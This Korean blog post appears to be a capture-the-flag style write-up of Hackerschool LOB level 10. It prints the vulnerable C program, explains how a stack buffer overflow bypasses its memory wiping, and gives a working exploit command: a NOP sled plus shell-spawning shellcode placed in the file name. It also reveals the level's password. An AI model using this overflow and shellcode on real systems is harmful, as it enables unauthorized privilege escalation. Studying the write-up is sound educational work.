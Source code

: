 ```yaml
---
date: '2022-10-29'
before : '2022-10-28'
after : '2022-10-30'
title: 'FTZ LOB LEVEL 10'
categories: [ 'KOR', 'pwn']
summary: ''
thumbnail: './Algorithm.png'
---
```



### 0. 들어가기 전에

LOB 레벨 11부터는 꽤 어려운(리버스 쉘 응용 등) 문제들이 나오는걸로 알고 있다. 혼자 열심히 해보고 안되면 빠르게 다른 분들의 포스트를 참고하려고 한다.


pwn을 완전 주력으로 삼을지는 아직 고민 중이다... 웹해킹도 하고있고 네트워크도 하고있으니 (암호학은 내년에 학교에서 정보보안 고급 암호학 한 번 들어보련다)


일단 다 해보고 맞는쪽으로 깊게 더 공부해보려고 한다. 아마 웹이나 네트워크가 되지 않을까?

### 1. Level 10 : Vampire -> Skeleton

코드를 확인해보자.

```

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter! 모든 argc를 초기화한다. 그럼 그냥 파일 이름에 담으면 될 것 같다.
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
}

```

여기서 확인할 수 있는건, 우리의 환경변수가 모두 초기화된다는 점이다. 잠깐 다시 한 번 코드의 실행 흐름을 짚어보자. 


1. 함수 프롤로그 실행
2. 함수 동작 실행 
- 우리에게 buffer 값을 입력받음
- 우리는 이를 이용해서 오버플로우로 ret값을 변환시킴
- 기타 다른 동작 실행
3. 이번에 새로 추가된 ultra hunter가 argv (버퍼 포함) 값들을 전부 초기화시킴.
4. 변조된 ret값의 주소로 함수가 회귀함



일단 나는 argv[0]까지 (파일 이름) 초기화된다는 점에 조금 의혹이 간다. argv[0]는 초기화되지 않는게 보통이니까, 일단 argv[0], 즉 파일 이름에 NOP SLED를 걸도록 하자.


그렇다면 할 일은 나왔다. ret의 값을 argv[0]으로 향하게 하고, argv[0]에 NOP SLED를 이용하여 쉘 코드를 넣으면 될 것 같다.


대충 확인해본 NOP SLED 중간값의 주소는 다음과 같았다.
```
0xbffffb28
```

그럼 이제 
```
./`python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"` `python -c 'print "A"*44 + "\x28\xfb\xff\xbf"'`
```

비밀번호 : shellcoder

 ---
## Source

- 해커스쿨 FTZ
- Me!
